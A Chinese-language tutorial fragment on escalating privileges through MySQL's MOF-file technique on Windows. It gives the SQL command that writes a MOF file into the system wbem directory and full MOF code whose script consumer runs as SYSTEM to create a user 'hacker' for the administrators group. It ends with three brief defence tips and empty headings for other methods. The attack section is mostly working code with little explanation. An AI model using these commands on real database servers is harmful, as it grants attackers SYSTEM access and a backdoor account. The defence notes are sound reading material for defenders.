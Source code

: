 我们可以用以下命令查看

`show global variables like '%secure_file_priv%'`

如果上述条件满足则可以尝试执行

select load_file(‘mof提权文件路径’) into dumpfile ‘`c:\windows\system32\wbem\mof\nullevt.mof`’

mof文件代码

```PHP
pragma namespace("\\\\.\\root\\subscription")

instance of __EventFilter as $EventFilter
{
    EventNamespace = "Root\\Cimv2";
    Name  = "filtP2";
    Query = "Select * From __InstanceModificationEvent "
            "Where TargetInstance Isa \"Win32_LocalTime\" "
            "And TargetInstance.Second = 5";
    QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $Consumer
{
    Name = "consPCSV2";
    ScriptingEngine = "JScript";
    ScriptText =
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"**net user hacker 123456 /add**\")";
    //cmd以system权限执行的语句
};

instance of __FilterToConsumerBinding
{
    Consumer   = $Consumer;
    Filter = $EventFilter;
};

```

标红部分是我们要执行的命令，先添加用户，在将用户添加到管理员组中。

### 防御方法

限制mysql的访问

不要以root用户身份登录

设置该目录为不可写

# 启动项提权

# yassh溢出

# 登录失败直接进入mysql